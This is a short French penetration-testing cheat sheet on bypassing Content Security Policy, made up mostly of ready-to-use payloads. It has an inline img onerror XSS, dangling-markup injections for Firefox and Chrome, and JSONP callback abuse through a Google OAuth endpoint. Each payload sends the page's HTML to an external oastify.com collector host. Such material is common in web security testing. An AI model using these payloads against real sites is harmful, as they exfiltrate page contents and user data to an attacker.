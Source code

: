 # Contournement de CSP 

Voir notamment : 

- https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
- https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
- https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy



## Inline code

```
<img src=x onerror="document.location=`//cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?c=${btoa(document.body.innerHTML)}`">
```



## Dangling Markup

### Firefox

```
http://site.com//page?param_vuln=<link rel="prefetch" href='https://cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?
http://site.com/page?param_vuln=<meta http-equiv="refresh" content='0;URL=https://cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?x=
```

### Chrome

```
http://site.com//page?param_vuln=<table background='//cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?
http://site.com//page?param_vuln=<body background='http://cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com/?
```



## JSONP 

Cas de figure d'un CSP autorisant des domaines de type Google, Twitter, Facebook, etc. 

Blocage de quelques fonctions comme eval() ou fetch() et nécessité de faire charger la page en entier avant l'exécution du payload.

Voir : 

- https://github.com/zigoo0/JSONBee

- https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt



```
curl -vvI

http://site.com//page?param_vuln="><script src=https://accounts.google.com/o/oauth2/revoke?callback=alert(1)></script>

http://site.com//page?param_vuln="><script src=https://accounts.google.com/o/oauth2/revoke?callback=window.location.replace(`https://bydmi3v6arev7jnqpydwkd1fm6sxg14q.oastify.com?x=${encodeURIComponent(document.documentElement.outerHTML)}`)></script>

http://site.com//page?param_vuln="><script defer src=https://accounts.google.com/o/oauth2/revoke?callback=window.location.replace(`https://bydmi3v6arev7jnqpydwkd1fm6sxg14q.oastify.com?x=${encodeURIComponent(document.documentElement.outerHTML)}`)></script>
```

